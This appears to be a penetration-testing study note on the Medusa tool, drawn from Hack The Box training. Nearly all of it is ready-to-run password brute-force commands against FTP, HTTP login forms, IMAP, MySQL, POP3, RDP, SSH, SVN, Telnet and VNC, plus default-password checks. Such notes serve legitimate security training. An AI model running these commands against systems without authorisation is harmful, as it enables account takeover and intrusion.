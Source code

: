 medusa
#######

Date: 2024-11-29 08:57

Status:

Installation
***************

.. code-block:: console

   sudo apt-get -y update
   sudo apt install medusa

Usage
***********

By using the `-t` option you can instantiate multiple threads. 

FTP
=====

Example 1: Brute forcing FTP

.. code-block:: console

    medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp

Example 2: Parallel connections with threads

.. code-block:: console

   medusa -U ./users.list -P ./pws.list -M ftp  -h 10.129.175.180 -n 2121 -v5 -L -t 11

HTTP
======

Example 1: Brute-forcing login forms on web applications over HTTP (GET/POST)

.. code-block:: bash

   medusa -M http -h www.example.com -U users.txt -P passwords.txt -m DIR:/login.php -m FORM:username=^USER^&password=^PASS^

Example 2: Brute forcing login forms on websites using HTTP POST requests.

.. code-block:: bash

   medusa -M web-form -h www.example.com -U users.txt -P passwords.txt -m FORM:"username=^USER^&password=^PASS^:F=Invalid"

Example 3: Web Servers with Basic HTTP Authentication

.. code-block:: bash 

   medusa -H web_servers.txt -U usernames.txt -P passwords.txt -M http -m GET 



IMAP
======

Example 1: Brute-forcing IMAP logins, often used to access email servers.

.. code-block:: bash

   medusa -M imap -h mail.example.com -U users.txt -P passwords.txt

MySQL 
======
Example 1: Brute-forcing MySQL database credentials, commonly used for web applications and databases.

.. code-block:: bash 

   medusa -M mysql -h 192.168.1.100 -u root -P passwords.txt

POP3 
======

Example 1: Brute-forcing POP3 logins, typically used to retrieve emails from a mail server.

.. code-block:: bash

   medusa -M pop3 -h mail.example.com -U users.txt -P passwords.txt

RDP
=====

Example 1: Brute-forcing RDP logins, commonly used for remote desktop access to Windows systems.

.. code-block:: bash

   medusa -M rdp -h 192.168.1.100 -u admin -P passwords.txt

SSHv2 
======

Example 1: Brute-forcing SSH logins, commonly used for secure remote access.

.. code-block:: bash

   medusa -M ssh -h 192.168.1.100 -u root -P passwords.txt

Example 2: 

.. code-block:: bash

   medusa -h <IP> -n <PORT> -u sshuser -P 2023-200_most_used_passwords.txt -M ssh -t 

   
SVN 
=====

Example 1: Brute-forcing Subversion (SVN) repositories for version control.

.. code-block:: bash

   medusa -M svn -h 192.168.1.100 -u admin -P passwords.txt

Telnet
========

Example 1: Brute-forcing Telnet services for remote command execution on older systems.

.. code-block:: bash

   medusa -M telnet -h 192.168.1.100 -u admin -P passwords.txt

VNC 
=====

Example 1: Brute-forcing VNC login credentials for remote desktop access.

.. code-block:: bash

   medusa -M vnc -h 192.168.1.100 -P passwords.txt

Testing for Empty or Default passwords 
=========================================

.. code-block:: bash 

   medusa -h 10.0.0.5 -U usernames.txt -e ns -M service_name

This command instructs Medusa to:

- Target the host at 10.0.0.5.
- Use the usernames from usernames.txt.
- Perform additional checks for empty passwords (-e n) and passwords matching the username (-e s).
- Use the appropriate service module (replace service_name with the correct module name).

References
**************
- https://academy.hackthebox.com/module/116/section/1165
- https://academy.hackthebox.com/module/57/section/512
